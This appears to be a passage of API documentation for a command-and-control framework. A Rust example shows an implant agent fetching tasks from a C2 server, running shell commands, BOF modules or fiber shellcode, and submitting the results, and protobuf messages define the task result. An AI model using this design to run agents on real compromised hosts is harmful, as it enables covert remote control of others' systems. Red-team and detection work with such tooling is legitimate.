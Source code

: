 **Example Usage:**
```rust
// Request tasks from server
let task_request = TaskRequest {
    agent_id: agent_id.clone(),
    max_tasks: 5, // Request up to 5 tasks
};

let tasks = grpc_client.get_tasks(task_request).await?;
for task in tasks {
    println!("Received task: {} ({})", task.task_id, task.command);

    // Execute task based on type
    let result = match task.task_type() {
        TaskType::ShellCommand => execute_shell_command(&task).await?,
        TaskType::BofExecution => execute_bof_task(&task).await?,
        TaskType::FiberShellcode => execute_fiber_task(&task).await?,
        _ => execute_generic_task(&task).await?,
    };

    // Submit result back to server
    submit_task_result(task.task_id, result).await?;
}
```

### SubmitTaskResult

Submits task execution results to the C2 server.

**Request:**
```protobuf
message TaskResult {
  string task_id = 1;                    // Task identifier
  string agent_id = 2;                   // Agent identifier
  TaskExecutionStatus status = 3;        // Execution status
  string output = 4;                     // Command output
  string error_message = 5;              // Error message if failed
  google.protobuf.Timestamp start_time = 6;      // Execution start time
  google.protobuf.Timestamp end_time = 7;        // Execution end time
  uint64 execution_duration_ms = 8;      // Duration in milliseconds
  int32 exit_code = 9;                   // Exit code
  repeated TaskArtifact artifacts = 10;   // Additional artifacts
}
```

**Response:**
```protobuf
message TaskResultResponse {
  bool success = 1;       // Result submission status
  string message = 2;     // Status message
}
```

## Advanced Execution
